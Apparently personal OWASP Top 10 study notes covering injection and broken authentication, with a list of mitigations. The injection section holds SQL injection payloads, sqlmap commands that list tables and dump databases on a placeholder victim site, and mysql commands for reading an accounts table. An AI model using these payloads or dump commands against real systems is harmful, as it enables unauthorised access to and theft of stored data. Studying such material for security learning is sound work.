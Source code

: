 # OWASP Top 10 (Open Web Application Security Project)

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML Ecternal Entity
5. Broken Access Control
6. Security Misconfiguration
7. Cross-site Scripting
8. Insecure Deserialization
9. Components with Known Vulnerabilities
10. Insufficient Logging & Monitoring

## 1. Injection

SQL Injection
* occurs when user controlled input is passed to SQL queries
* can pass in SQL queries to manipulate the outcome of queries
* access, modify, delete info in database

Command Injection
* occurs when user input is passed to system commands
* can execute arbitrary system commands (whoami, lsb_release, etc.)
* allow to gain access to users system

Mitigate
* use allow / whitelist = only accepted input is processed
* strip input = if input contains dangerous characters, they are removed before processing



```
Basic statement
> SELECT name, description FROM products WHERE id=9;

Comments done either with # or --

#10.124.211.96/newsdetails.php?id=26 or 2=2; -- -
#10.124.211.96/newsdetails.php?id=26 UNION SELECT 'null1'; -- -
#' or 1=1; -- -  | try this in login form


#SELECT description FROM items WHERE id=' ' UNION SELECT user (); -- -';


SQLMap -tool

#sqlmap -u <URL> -p <injection parameters> [options]
#sqlmap -u 'http://vitim.site/view.php?id=1141' -p id --technique=U 
	-uses UNION based SQLi

#sqlmap -u 'http://victim.site/view.php?id=1141' --tables
	-prints all the tables

#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --columns
#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --dump


-if you find credentials to test against SQL server
#mysql -u <username> -p<password> -h <ip>
#use <username>_accounts;
#show tables;
#select * from accounts;

```

## 2. Broken Authentication

Common flaws in authentication mechanisms
* brute force attacks
* use of weak credentials
* weak session cookies
  * if predictable values

Mitigate
* enforce strong password policy
* automatic lockout after X attempts
* Multi Factor Authentication
* sanitize the input(username & password) = can't create new user "<space>admin"


## 3. Sensitive Data Exposure

